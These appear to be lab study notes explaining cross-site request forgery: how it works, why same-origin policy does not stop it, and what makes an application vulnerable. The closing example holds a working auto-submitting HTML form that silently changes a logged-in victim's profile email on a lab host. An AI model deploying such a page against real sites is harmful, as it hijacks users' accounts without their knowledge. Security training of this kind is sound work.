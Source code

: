 <br>
<br>
<br>
<br>

# Cross site request forgery (CSRF)

Cross-site requests are common in web applications and are used for multiple legitimate purposes.

Cross-Site Request Forgery (CSRF or XSRF) is an attack that forces an end-user to execute inadvertent actions on a web application in which they are currently authenticated. This attack is usually mounted with the help of attacker-crafted web pages that the victim must visit or interact with, leveraging the lack of anti-CSRF security mechanisms. These web pages contain malicious requests that essentially inherit the identity and privileges of the victim to perform an undesired function on the victim's behalf. CSRF attacks generally target functions that cause a state change on the server but can also be used to access sensitive data.

During CSRF attacks, the attacker does not need to read the server's response to the malicious cross-site request. This means that Same-Origin Policy cannot be considered a security mechanism against CSRF attacks.

**Reminder**: According to Mozilla, the same-origin policy is a critical security mechanism that restricts how a document or script loaded by one origin can interact with a resource from another origin. The same-origin policy will not allow an attacker to read the server's response to a malicious cross-site request.

A web application is vulnerable to CSRF attacks when:

- All the parameters required for the targeted request can be determined or guessed by the attacker;
- The application's session management is solely based on HTTP cookies, which are automatically included in browser requests.

To successfully exploit a CSRF vulnerability, we need:

- To craft a malicious web page that will issue a valid (cross-site) request impersonating the victim;
- The victim to be logged into the application at the time when the malicious cross-site request is issued.

### CSRF example

Fwe have a form where we can modify some parameters about a user profile (email, name, ...). WHere we sent this form we notice that there isn't a anti-CSRF token in the request.

First, create and serve the below HTML page. Save it as notmalicious.html:

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```
